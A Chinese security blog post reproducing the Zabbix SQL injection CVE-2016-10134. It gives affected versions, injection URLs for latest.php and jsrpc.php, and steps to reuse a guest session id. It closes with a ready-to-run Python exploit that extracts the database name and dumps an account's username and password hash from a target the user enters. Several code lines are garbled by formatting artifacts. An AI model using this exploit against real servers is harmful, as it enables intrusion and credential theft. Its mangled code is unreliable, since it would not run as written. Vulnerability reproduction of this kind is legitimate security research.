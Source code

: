 ```yaml
---
permalink: 2019/08/03/zabbix-sql-injection
tags:
  - SQL注入
  - zabbix
layout: post
date: '2019-08-03 08:00:00'
categories:
  - web安全
  - 漏洞复现
home_cover: ''
title: zabbix SQL注入（CVE-2016-10134）
---
```


## 什么是zabbix


zabbix是一个基于WEB界面的提供分布式系统监视以及网络监视功能的企业级的开源解决方案。


zabbix能监视各种网络参数，保证服务器系统的安全运营；并提供灵活的通知机制以让系统管理员快速定位/解决存在的各种问题。


zabbix由2部分构成，zabbix server与可选组件zabbix agent。


zabbix server可以通过SNMP，zabbix agent，ping，端口监视等方法提供对远程服务器/网络状态的监视，数据收集等功能，它可以运行在Linux，Solaris，HP-UX，AIX，Free BSD，Open BSD，OS X等平台上。


> _2016年8月12日，1n3通过邮件披露了Zabbix软件的jsrpc.php文件在处理profileIdx2参数时存在insert方式的SQL注入漏洞，与官方通告的latest.php文件在处理toggleids参数时存在insert方式的SQL注入漏洞属于同一类型的漏洞，只是攻击的位置不同。_


## 受影响版本


ZABBIX 2.0.5 2.0.13 2.2.x 2.4.2 2.4.5 2.4.7 2.4.8 2.5.0 3.0.0-3.0.3


## 不受影响的版本


_`ZABBIX 1.8.，2.2.14，3.0.4，3.2.0`_


## 漏洞复现


注入在两个页面中都存在，分别进行验证。

1. latest.php页面：

此页面需要使用已注册用户或者guest用户登陆才可以。


![vg8f2L9JGsqyHmn.png](../post_images/5544313dae168a8be656a51417b64567.png)


_使用guest用户登陆，查看cookie中的zbxsessionid_


![g6hn3sbmDvH1FkT.png](../post_images/0b1edf6dc18f8fe671e56daa98fc7eb6.png)


此页面注入的payload为：


> _**`http://ip:port/latest.php?output.php=ajax&sid=&favobj=toggle&toggleopenstate=1&toggleids=updatexml(0,concat(0xa,database()),0)`**_


_需要将zbxsessionid中的后16位拿出来放到sid后面_


![hyX7G4bCHduNIKr.png](../post_images/5eba46552de6edef2afe1c680868d66b.png)


可看到已经注入成功，将数据库名显示了出来。

1. jsrpc.php页面:

此页面无需登陆即可注入


zabbix 3.0.4版本已经修复了latest.php页面的注入，但不清楚是否已修复jsrpc.php页面的注入，遇到3.0.4版本也可尝试进行注入。


此页面注入的poc为：


```php
_http://192.168.223.130:8080/jsrpc.php
?sid=0bcd4ade648214dc
&type=9
&method=screen.get
&timestamp=1471054088083
&mode=2
&screenid=
&groupid=
&hostid=0
&pageFile=history.php
&profileIdx=web.item.graph
&profileIdx2=1'
&updateProfile=true
&screenitemid=
&period=3600
&stime=20170813040734
&resourcetype=17
&itemids[23297]=23297
&action=showlatest
&filter=
&filtertask=
&markcolor=1_

```


注入点在profileIdx2参数


测试如下：


![UZtOIXlsJWDh2ib.png](../post_images/6acf521de4b014f72242b8c0f99785df.png)


同样可构造注入语句显示数据库名：


![yLG9Zc6O3E5UqrR.png](../post_images/91a0b4eb9f310ea0fb89c46cb5027929.png)


## 利用EXP


```python
_# coding= utf-8
import sys,re
import requests

def sqlcheck():
    poc = "/jsrpc.php?sid=0bcd4ade648214dc" \
          "&type=9" \
          "&method=screen.get" \
          "&timestamp=1471054088083&mode=2" \
          "&screenid=" \
          "&groupid=&hostid=0" \
          "&pageFile=history.php" \
          "&profileIdx=web.item.graph" \
          "&profileIdx2=2’3297" \
          "&updateProfile=true" \
          "&screenitemid=&period=3600" \
          "&stime=20170813040734" \
          "&resourcetype=17" \
          "&itemids%5B23297%5D=23297" \
          "&action=showlatest" \
          "&filter=" \
          "&filtertask=" \
          "&markcolor=1"

    request__url = zabbix__url+poc

    try:
        rsp = requests.get(requesturl,timeout=5)
        r = rsp.text
        keyWord = re.findall("INSERT\s__INTO\s__profiles",r)
        if keyWord:
            print("此地址存在注入")
        else:
            print("此地址不存在注入，无法利用")
    except Exception as e:
        print(e)


def getdatabase():
    payload = "(select database())"
    poc = "/jsrpc.php?sid=0bcd4ade648214dc" \
          "&type=9" \
          "&method=screen.get" \
          "&timestamp=1471054088083&mode=2" \
          "&screenid=" \
          "&groupid=&hostid=0" \
          "&pageFile=history.php" \
          "&profileIdx=web.item.graph" \
          "&profileIdx2="+payload+ \
          "&updateProfile=true" \
          "&screenitemid=&period=3600" \
          "&stime=20170813040734" \
          "&resourcetype=17" \
          "&itemids%5B23297%5D=23297" \
          "&action=showlatest" \
          "&filter=" \
          "&filtertask=" \
          "&markcolor=1"
    url = zabbixurl + poc
    try:
        rsp = requests.get(url,timeout=5)
        r = rsp.text
        keyword = re.search('Incorrect.__?(\S+)\s__for',r,re.S)
        print("数据库名称为：" + keyword.group(1))
    except Exception as e:
        print(e)

def getUserPass():
    payload = "(select 1 from(select count()," \
              "concat((select (select (select concat(0x7e,(select concat(alias,0x3a,passwd) " \
              "from  users limit 0,1),0x7e))) from informationschema.tables limit 0,1),floor(rand(0)2))x from " \
              "informationschema.tables group by x)a)"
    poc = "/jsrpc.php?sid=0bcd4ade648214dc" \
          "&type=9" \
          "&method=screen.get" \
          "&timestamp=1471054088083&mode=2" \
          "&screenid=" \
          "&groupid=&hostid=0" \
          "&pageFile=history.php" \
          "&profileIdx=web.item.graph" \
          "&profileIdx2=" + payload + \
          "&updateProfile=true" \
          "&screenitemid=&period=3600" \
          "&stime=20170813040734" \
          "&resourcetype=17" \
          "&itemids%5B23297%5D=23297" \
          "&action=showlatest" \
          "&filter=" \
          "&filtertask=" \
          "&markcolor=1"
    url = zabbixurl+poc
    try:
        rsp = requests.get(url,timeout=5)
        r = rsp.text
        keyword = re.search('Duplicate.__?(\S+)\s_for',r,re.S)
        print("用户名和密码为：" + keyword.group(1))
    except Exception as e:
        print(e)


if **name** == '**main**':
    print('_'_60)
    print('\t CVE-2016-10134')
    print('\t Zabbix SQL injection EXP')
    print('\t by https://darkless.cn')
    print('\t python>=3.5 and usage "python zabbix-sql-inject-exp.py"')
    print('_'_  _60)
    zabbixurl = input("请输入zabbix地址，例如：http://192.168.0.1:8080 >>>>")
    if not zabbixurl:
        sys.exit()
    sqlcheck()
    getdatabase()
    getUserPass()_

```


## 参考文章

- https://www.waitalone.cn/zabbix-sql-1.html
- http://blog.nsfocus.net/sql-zabbix-analysis-protection-scheme-injection-vulnerability/
- https://blog.csdn.net/csacs/article/details/86656618
